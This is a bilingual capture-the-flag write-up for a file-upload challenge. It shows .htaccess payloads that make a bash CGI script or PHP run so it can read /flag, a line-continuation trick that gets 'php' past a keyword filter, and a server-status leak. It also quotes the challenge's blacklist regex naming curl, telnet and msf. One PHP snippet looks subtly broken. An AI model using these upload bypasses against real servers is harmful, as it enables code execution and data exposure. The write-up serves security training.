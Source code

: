 ## check in
**Examination of this Challenge**  

1.`.htaccess`Utilization of documents
2.The use of CGI in Linux
Some points to pay attention to when doing this Challenge:
- MIME(`content-type`)Field verification
- Suffix blacklist verification(`/ph|ml|js|cg/`)
- Document content verification
```
/perl|pyth|ph|auto|curl|base|>|rm|ryby|openssl|war|lua|msf|xter|telnet/
```
**Expected solution**  

.htaccess:
```
AddHandler cgi-script .xx
```
1.xx:
```bash
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag
```
After uploading the file, we found that the status code was 500 and we could not parse the bash file, because our target site was a Linux environment. If we wrote it with the local (windows or other)editor and the encoding format was not consistent with that when uploading, we could not parse it, so we could write it in the Linux environment, export and upload it.

**Unexpected solution 1**  

.htaccess:
```
AddType application/x-httpd-p\
hp .xx
```
1.xx
```php
<?='cat /flag';
```
**Unexpected solution 2**  

Leverage server status information

.htaccess:
```
SetHandler server-status
```
Upload files and access your own upload directory,You can see the server status information,This method can at any time look at the information of a file that someone else has access to, and use someone else's file to successfully getflag.


## check in
**本题考查点**：  

1.`.htaccess`文件的利用
2.linux环境下CGI的利用
文件上传时注意的几点:
- MIME(content-type字段)校验
- 后缀名黑名单校验(`/ph|ml|js|cg/`)
- 文件内容校验
```
/perl|pyth|ph|auto|curl|base|>|rm|ryby|openssl|war|lua|msf|xter|telnet/
```
**预期解**  

.htaccess:
```
Options +ExecCGI
AddHandler cgi-script .xx
```
1.xx:
```bash
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag
```
注：这里讲下一个小坑，linux中cgi比较严格(2333333)
上传后发现状态码500，无法解析我们bash文件。因为我们的目标站点是linux环境，如果我们用(windows等)本地编辑器编写上传时编码不一致导致无法解析，所以我们可以在linux环境中编写并导出再上传。

**非预期解 1**  

惨痛的教训 ！！！
出题时坑有点多，所以忘记了[2019xnuca中的ezphp](https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/Ezphp),所以许多师傅就利用`\`绕过了waf! (wtclll!!)
.htaccess:
```
AddType application/x-httpd-p\
hp .xx
```
1.xx
```php
<?='cat /flag';
```
**非预期解 2**  

利用apache的服务器状态信息(默认关闭)
.htaccess:
```
SetHandler server-status
```
上传文件后，访问自己的目录就发现是apache的服务器状态信息，可以看到其他人的访问本网站的记录，可以利用次方法，可以白嫖flag。